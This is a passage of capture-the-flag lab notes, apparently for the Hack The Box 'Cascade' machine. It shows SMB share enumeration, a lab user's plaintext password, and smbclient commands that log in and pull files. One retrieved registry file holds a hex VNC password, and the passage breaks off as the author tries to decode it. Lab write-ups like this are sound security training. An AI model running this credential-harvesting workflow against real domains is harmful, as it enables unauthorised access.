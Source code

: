 ---OUTPUT---
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```
- We access print$ share and find nothing relevant
- We access Data share and we can access one folder in it which holds some files:
	```bash
smbclient -U 'r.thompson' //10.10.10.182/Data --password='rY4n5eva'
smb: \> cd IT\
smb: \> dir

---OUTPUT---
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

                6553343 blocks of size 4096. 1625203 blocks available
```
	- I explore the folder and get some files I feel would be relevant:
		```bash
smb: \IT\> cd Logs\DC$\
smb: \IT\Logs\DC$\> get dcdiag.log
smb: \IT\Logs\DC$> cd ..
smb: \IT\Logs\> cd "Ark AD Recycle Bin"
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\Ark AD Recycle Bin\> cd ..
smb: \IT\Logs\> cd ..
smb: \IT\> cd "Email Archives"
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
smb: \IT\Email Archives\> cd ..
smb: \IT\> cd Temp\
smb: \IT\Temp\> cd s.smith\
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```
		- On reading the files
			- Meeting Notes we see a user TempAdmin exists with the same password as administrator
			- On reading VNC Install.reg file we find some sort of hex password:
				```bash
cat VNC\ Install.reg

---RELEVANT-OUTPUT---
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
- We try to decrypt this like last time (but for hex) but don't get a readable output:
	```bash
echo 6bcf2a4b6e5aca0f | xxd -r -p
